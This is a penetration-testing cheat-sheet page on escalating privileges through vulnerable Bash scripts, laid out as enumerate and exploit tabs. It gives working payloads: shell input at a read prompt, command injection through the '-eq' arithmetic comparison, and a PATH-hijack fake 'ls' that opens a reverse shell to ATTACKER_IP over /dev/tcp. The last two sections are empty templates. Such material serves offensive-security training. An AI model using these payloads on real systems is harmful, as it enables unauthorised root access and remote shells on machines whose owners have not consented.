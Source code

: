 # Bash

## Theory 

Bash scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, bash scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice 

### Shell In Prompt

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes `read -p`. We can input `/bin/bash -i` to get a shell as another user.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -p "What's you name: "
```
{% endtab %}

{% tab title="Exploit" %}
We can input `/bin/bash -i` to get a shell.

```bash
$ sudo /usr/bin/sudo-script.sh

What's you name: /bin/bash -i
```
{% endtab %}
{% endtabs %}

### Bash eq

{% tabs %}
{% tab title="Enumerate" %}
If a bash script use the `-eq` comaparison, it's vulnerable to arbitrary command execution.
```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```
{% endtab %}

{% tab title="Exploit" %}
To execute arbitrary command, answer this question as below.
We have to Inject arbitrary command before the correct number (42).
```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/bin/bash -p >&2)]+42
$

#Or execute your own malicious script
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/tmp/shell.elf)]+42
```

{% hint style="info" %}
a[$(/tmp/shell.elf)]' will allow us, by evaluating the content of the array, to execute our script
{% endhint %}

{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes another command **without specifying the path.** We can abuse it and get a privilege escalation.
```bash
$ cat /usr/bin/vuln-suid-script.sh

#!/bin/bash
ls /root/var/file
```
{% endtab %}

{% tab title="Exploit" %}
We can generate a malicious file in the `/tmp` folder named as the command called without full path
```bash
#Generate a payload
echo "bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'" > /tmp/ls
chmod +x /tmp/ls

#Change Path env variable and execute the script
export PATH=/tmp:$PATH
/usr/bin/vuln-suid-script.sh
```
{% endtab %}
{% endtabs %}

### Unquoted Expression Injection
{% tabs %}
{% tab title="Enumerate" %}

{% endtab %}

{% tab title="Exploit" %}

{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Enumerate" %}

{% endtab %}

{% tab title="Exploit" %}

{% endtab %}
{% endtabs %}

